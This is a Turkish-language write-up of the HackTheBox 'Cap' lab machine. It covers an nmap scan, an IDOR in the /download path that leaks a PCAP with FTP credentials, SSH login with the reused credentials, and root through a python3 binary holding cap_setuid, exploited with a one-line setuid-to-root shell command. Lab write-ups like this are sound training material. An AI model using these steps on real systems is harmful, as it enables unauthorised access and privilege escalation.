 ```yaml
---
title: 'HackTheBox | Cap WriteUp'
author: appdone
categories: [HackTheBox Machines]
tags: [idor, linux capabilities]
render_with_liquid: false
media_subpath: /images/hackthebox_cap/
image:
  path: logo.webp
---
```


## Özet

eklenecektir...

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.10.245                                                                                                                                                           
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-20 13:30 EDT                                                                                                                            
Nmap scan report for 10.10.10.245                                                                                                                                                             
Host is up (0.52s latency).                                                                                                                                                                   
Not shown: 824 closed tcp ports (reset), 173 filtered tcp ports (no-response)                                                                                                                 
PORT   STATE SERVICE VERSION                                                                                                                                                                  
21/tcp open  ftp     vsftpd 3.0.3                                                                                                                                                             
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)                                                                                                             
| ssh-hostkey:                                                                                                                                                                                
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)                                                                                                                                
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)                                                                                                                               
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)                                                                                                                             
80/tcp open  http    gunicorn                                                                                                                                                                 
|_http-server-header: gunicorn                                                                                                                                                                
|_http-title: Security Dashboard
...
```

Tarama sonucunda üç adet port'un açık olduğunu ve HTTP servisinde çalışan uygulamanın bir yönetim paneli olduğunu öğreniyoruz.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="1200" height="600" }

Web uygulamasında colorlib tarafından yapılmış, dört sayfadan oluşan bir güvenlik teması kullanılıyor. "IP Config" ve "Netword Status" sayfasında belirli komutlardan dönen sonuçlar bulunuyor.

![](2.webp){: width="1200" height="600" }

Son sayfada ise PCAP dosyalarını indirebileceğimiz bir bölüm var.

![](3.webp){: width="1200" height="600" }

## Sömürü aşaması

İndirme butonuna tıkladığımızda bizi "/download/4" sayfasına yönlendiriyor. Bu sayfada ise URL adresinde belirtilen numaraya karşılık gelen PCAP dosyasını indiriyor. Numarayı "0" olarak değiştirdikten sonra indirip, wireshark aracılığıyla görüntülediğimizde FTP servisine ait kullanıcı bilgileri ile karşılaşıyoruz.

![](4.webp){: width="1200" height="600" }

FTP servisinde bağlandıktan sonra ise nathan kullanıcısının dizininde olduğumuzu öğreniyoruz ve dizin geçişlerinin açık olduğunu görüyoruz. Haliyle aynı kullanıcı bilgilerini kullanarak SSH servisine bağlanabileceğimi düşündüm ve bağlandıktan sonra ise ilk bayrağı almak için user.txt dosyasını görüntüledim.

```console
nathan@cap:~$ cat user.txt 
56c***1d8
```

## Yetki yükseltme

### root

Hatırlarsanız, web uygulamasında sistemde bir komut çalıştırdıktan sonra sonuçlarını doğruca ekrana yazdıran bir sayfa vardı. Uygulamanın arka planda ne yaptığını görmek için /var/www/html sayfasına gittiğimizde python'u kullanarak kullanıcı ID'sini 0 yaptığını ve komut çalıştırdığını görüyoruz.

```py
def capture():
        get_lock()
        pcapid = get_appid()
        increment_appid()
        release_lock()

        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
        #os.setuid(1000)
                                                                                                                                                                                              
        return redirect("/data/" + str(pcapid))
```

0 ID'si root kullanıcısına ait olduğundan root yetkisinde komut çalıştırdığını düşünebiliriz. Bunu yapabilmesi için python dosyasına setuid yeteneğinin verilmesi gerekiyor. Kontrol ettiğimizde setuid yeteneğinin olduğunu görüyoruz.

```console
nathan@cap:/var/www/html$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Aynı komutun sadece komut çalıştıracağımız alanını değiştirdikten sonra çalıştırdığımızda root kullanıcısına geçiş yapıyor ve son bayrağı kendi dizininden alıyoruz.

```console
nathan@cap:/var/www/html$ python3 -c 'import os; os.setuid(0);os.system("bash")'
root@cap:/var/www/html# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt 
857***bad
```
